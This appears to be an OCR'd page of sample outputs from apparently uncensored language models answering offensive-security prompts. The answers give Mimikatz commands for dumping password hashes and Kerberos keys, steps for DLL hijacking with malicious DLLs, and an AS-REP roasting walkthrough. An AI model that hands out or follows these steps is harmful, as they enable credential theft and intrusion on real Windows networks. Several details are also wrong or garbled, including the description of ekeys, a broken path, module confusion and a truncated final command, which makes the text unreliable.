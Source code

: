 
2nd answer:
 To retrieve the hashes of other users with Mimikatz, you would need to use the `sekurlsa::logonpasswords` command. Here's an example:
```bash
mimikatz_command -f "sekurlsa::logonpasswords"
```
This will extract the NTLM hashes of all logged-in users on the target system, including their passwords and other sensitive data like the user's authentication token. You can then use the `lsadump::sam` command to dump the SAM database and retrieve the hashes of those users. Here's an example:
```bash
mimikatz_command -f "lsadump::sam"
```
You may also want to consider using the `sekurlsa::ekeys` command to extract the Kerberos TGTs (time-based tickets) of all users, which can be used to authenticate as those users without knowing their passwords. Here's an example:
```bash
mimikatz_command -f "sekurlsa::ekeys"
```


**33B:**

```text
Prompt: How do I perform DLL Hijacking?
Answer:
Step 1: Find the legitimate application and its required DLLs
Firstly, you need to find out which are the required DLLs that the legitimate application needs in order to run properly. You can use tools like Process Monitor from Sysinternals or NirSoft's DLL Tool to analyze the process and see which DLL files it loads. Once you have identified all the required DLLs, you need to determine their names and versions so that you can create a copy of them with the same name and version but modified to include malicious code.

Step 2: Copy the legitimate application and its required DLLs
Next, you need to copy both the legitimate application and all the necessary DLL files into a new folder that you will create in the target machine's file system. Make sure to choose a location where the target user has write access to avoid any permission issues when trying to replace the original files.
```

```text
Question: How do I perform ASREP Roast?

Answer:
1. Install PowerShell version 5 or higher on your system.
2. Open PowerShell and navigate to the directory where the Get-DomainUser module file is located. For example, type the following command in PowerShell:
```
```bash
cd C:Program Files (x86)Active Directory Users and Computers
```
3. Import the Active Directory module by typing the following command:
```bash
Import-Module ActiveDirectory
```
4. Get a list of all users with pre-authentication not required by typing the following command:
```bash
Get-DomainUser -PreauthNotRequired -Properties SamAccountName
```
5. Filter the output to only include the user's SID by using the Select-Object command and piping the output to more:
```bash
Get-DomainUser -PreauthNotRequired -Properties SamAccountName | Select-Object Sid | more
```
6. Export the list of SIDs to a file by redirecting the output to a file:
```bash
Get-DomainUser -PreauthNotRequired -Properties SamAccountName | Select-Object
```
